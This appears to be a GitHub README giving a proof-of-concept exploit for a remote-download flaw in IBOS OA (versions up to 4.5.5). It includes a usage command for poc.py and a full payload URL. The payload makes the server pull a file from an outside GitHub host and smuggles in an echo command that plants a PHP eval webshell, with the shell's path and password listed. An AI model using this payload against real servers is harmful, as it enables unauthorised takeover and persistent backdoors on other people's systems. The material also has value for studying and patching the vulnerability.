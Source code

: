 # IBOS-OA-Remote-Download-Getshell
# Affected Version
## Version <= 4.5.5

## POC

### Usage:
```
python2 poc.py -u http://localhost
```

### Payload:
```
http://localhost/data/restore.php?op=restore&id=https://raw.githubusercontent.com/zhaoweiho/IBOS-remote-download-getshell/master/poxteam.txt%20?%20%26%20echo%20^%3C?php%20@eval($_GET[%22poxteam%22])?^%20>%20weiho.php
```
Link to Webshell
URL:http://localhost/data/weiho.php
PassWord:poxteam



## References

https://skrskr.me/index.php/posts/open-source-version-of-IBOS-oa-system-getshell.html

